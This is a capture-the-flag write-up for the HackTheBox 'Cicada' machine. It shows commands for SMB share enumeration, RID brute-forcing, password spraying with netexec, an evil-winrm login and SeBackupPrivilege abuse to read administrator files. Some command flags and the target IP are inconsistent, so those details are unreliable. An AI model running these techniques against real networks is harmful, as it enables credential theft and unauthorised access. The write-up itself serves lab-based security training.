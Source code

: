 This is a writeup for recently retired Cicada machine in Hackthebox platform.

![NMAP](/static/writeups/Cicada/cicada.png)

### Part one: Scanning and Enumeration

Let’s begin with an nmap scan, so that we know which service are running and where to start.

```
nmap -Sv -Sc 10.10.11.27
```

![NMAP](/static/writeups/Cicada/0.png)

We can see many services are running and machine is using Active Directory service and there are many service to fiddle with. I am going to start with samba and enumerate shares using smbclient:

> smbclient -N -L $TAR, (TAR means target ip:TAR=10.10.11.35)

![NMAP](/static/writeups/Cicada/1.png)

let’s check if we can login with guest account or not, and if yes what permission we have using netexec:

> nxc smb 10.10.11.35 -u ‘a’ -p ‘’ — shares

![NMAP](/static/writeups/Cicada/2.png)

I can read HR and $IPC share, lets see HR contents using smbclient. there is a file called ‘Notice from Hr.txt’

![NMAP](/static/writeups/Cicada/3.png)

![NMAP](/static/writeups/Cicada/4.png)

It contains password for default user 'Cicada$M6Corpb\*@Lp#nZp!8' can be seen in this file, lets keep note of it.  
 Now with a password in hand, lets find some usernames so, we can use password we found earlier. As it is active directory we can Enumerate Users by Bruteforcing RID using Netexec:

> sudo nxc smb $TAR -u guest -p ‘’ — rid-brute

![NMAP](/static/writeups/Cicada/5.png)

We can find many user from this command, lets keep note of it. let’s use previously found password from ‘Notice from HR.txt’ and use these user to see if any username matches with password.  
 we can use netexec for this also.

> sudo nxc smb $TAR -u user.txt -p ‘Cicada$M6Corpb\*@Lp#nZp!8’ — continue-on-success

![NMAP](/static/writeups/Cicada/6.png)

We can see user ‘michael.wrightson’ matches with that pasword. lets use these credentials in Netexec to see what permission we have on share with this account.

> nxc smb 10.10.11.35 -u ‘michael.wrightson’ -p ‘Cicada$M6Corpb\*@Lp#nZp!8’ — shares

Nothing interesting same permission as guest account so, lets use ldapdomaindump using michael to find some more information.

> ldapdomaindump 10.10.11.35 -u ‘cicada\michael.wrightson’ -p ‘Cicada$M6Corpb\*@Lp#nZp!8’

![NMAP](/static/writeups/Cicada/7.png)

We find that David Orelius left his password in description: ‘aRt$Lp#7t\*VQ!3’. lets use the credentials in Netexec to see what permission we have on share with this account.

![NMAP](/static/writeups/Cicada/8.png)

david can access dev share lets see what is in there using smbclient

> smbclient -U david.orelious //$TAR/DEV

![NMAP](/static/writeups/Cicada/9.png)

there is file called backup_script.ps1 which contains emily.oscars password: ‘Q!3@Lp#M6b*7t*Vt’. Lets see what permission we have on share using these credentials using NetExec:

> nxc smb 10.10.11.35 -u ‘emily.oscars’ -p ‘Q!3@Lp#M6b*7t*Vt’ — shares

![NMAP](/static/writeups/Cicada/10.png)

emily can read all share except DEV and have write access in C$ share.

### Part Two: Finding Foothold

Accessing c$ share using emily account and pivoting here and there we can see that there is file called user.txt in Desktop folder ‘C:\Users\emily.oscars.cicada\Desktop’ from where we are able to get user flag.

Using evil-winrm with emily account, we are able to get shell in the machine.

> sudo evil-winrm -i $TAR -u emily.oscars -p ‘Q!3@Lp#M6b*7t*Vt’

![NMAP](/static/writeups/Cicada/11.png)

and using net user emily.oscars, we can see that emily is part of backup_operators group.

lets keep pivoting, file called root.txt can be found on Desktop folder under Administrator directory.

![NMAP](/static/writeups/Cicada/12.png)

But we cannot download or access that file with emily.

### Part Three: Privilege Escalation

As a built-in AD groups, **Backup operators** can log into a computer and shut it down. Can create backup of local files regardless of permission on that file. NTDS.DIT can be cloned.  
 lets look for a way to escalate privilege in order to read ‘root.txt’. by googling for a while i found a way to escalate privilege of emily.oscars [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges)

Using two dll called SeBackupPrivilegeUtils.dll and SeBackupPrivilegeCmdLets.dll, we are able to copy and access file that high level user like admin can access.

![NMAP](/static/writeups/Cicada/13.png)

We can download these file from internet and manually upload them in write access directory of emily.oscars and using the method above we can escalate privilege and copy it to directory with write permission using this command:

> Copy-FileSeBackupPrivilege C:\Users\Administrator\Desktop\root.txt c:\\Users\emily.oscars.CICADA\Downloads\a.txt

![NMAP](/static/writeups/Cicada/14.png)

and we are able to get root flag like this:

![NMAP](/static/writeups/Cicada/15.png)

cheers!
